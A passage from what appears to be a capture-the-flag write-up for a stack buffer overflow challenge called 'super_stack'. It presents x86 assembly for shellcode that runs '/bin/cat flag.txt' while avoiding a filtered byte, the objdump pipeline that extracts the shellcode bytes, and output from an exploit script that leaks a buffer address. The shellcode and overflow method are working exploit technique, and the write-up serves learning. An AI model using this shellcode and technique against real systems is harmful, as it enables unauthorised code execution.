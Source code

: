 ```
As hex chars (little endian): \xdc\x14\x8f\xff
returning NOW
flag.txt
super_stack
```
There is a `flag.txt` file there, so now we can steal the `cat` code from [Scripting Gimme Shellcode](https://github.com/neuronflicker/CTF/tree/master/UCF/Scripting_GimmeShellcode), update it to remove the `0x0b` (and anything else in there), and put the resulting shellcode in my script.

The updated `cat` assembly is:
```asm
# /bin/cat flag.txt test
         global _start
         section .text

_start:  xor eax, eax               ; Start with EAX at 0
         push eax                   ; The null terminator for our string
         push 0x7461632f            ; Push the executable string (/bin/cat) to the stack
         push 0x6e69622f            ;
         mov ebx, esp               ; Set EBX so it points to the command

         push eax                   ; Null terminate the argument string
         push 0x7478742e            ; Push the argument (flag.txt) to the stack
         push 0x67616c66            ;
         mov esi, esp               ; Save the pointer in ESI
      
         ; The argv list is a list of pointers to strings
         ; ECX points at the start of this list and the list is
         ; NULL terminated
         push eax                   ; Null terminate our argv list
         push esi                   ; Push the pointer to the argument (flag.txt)
         push ebx                   ; Push the pointer to the command (/bin/cat)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x08               ; Use AL so we don't need zeros set to 0x08 to avoid
                                    ; 0x0b in final out put
         inc al                     ; Increment al to 0x09
         inc al                     ; 0x0a
         inc al                     ; 0x0b - this is what we need for execve()
         int 0x80
        
         mov al, 1                   ; Now exit
         xor ebx, ebx                ; with status 0
         int 0x80
```
I converted this to shellcode:
```
> objdump -d ./cat_code|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x66\x6c\x61\x67\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
I copied the output shellcode into the script, adjusted the number of `A` characters added, and re-ran it:
```
> ./hack_super_stack.sh 
Found: buf: 0xffd6e68c
Extracted: ffd6e68c
As hex chars (little endian): \x8c\xe6\xd6\xff
returning NOW
```